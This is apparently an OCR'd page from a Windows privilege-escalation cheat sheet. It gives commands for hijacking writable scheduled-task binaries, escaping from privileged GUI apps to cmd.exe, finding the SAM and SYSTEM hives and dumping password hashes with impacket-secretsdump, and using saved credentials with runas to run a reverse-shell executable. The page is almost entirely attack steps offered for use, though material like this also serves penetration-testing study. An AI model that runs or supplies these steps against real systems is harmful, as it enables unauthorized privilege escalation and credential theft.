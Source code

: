 ### Shedule Tasks

**Command Prompt:**

```powershell
C:\> schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

**Powershell**

```powershell
PS > Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
If you see any binary you have full access or Modify permissions then replace it and wait for some time to get the elevated shell !!

### InSecure GUI Apps:

```powershell
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```
### SAM and SYSTEM Files

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

#First go to c:
dir /s SAM
dir /s SYSTEM

impacket-secretsdump -system SYSTEM -sam SAM local
#always mention local in the command
#Now a detailed list of hashes are displayed
```

### Runas Saved Creds
```powershell
cmdkey /list #Displays stored credentials, looks for any optential users
#Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```
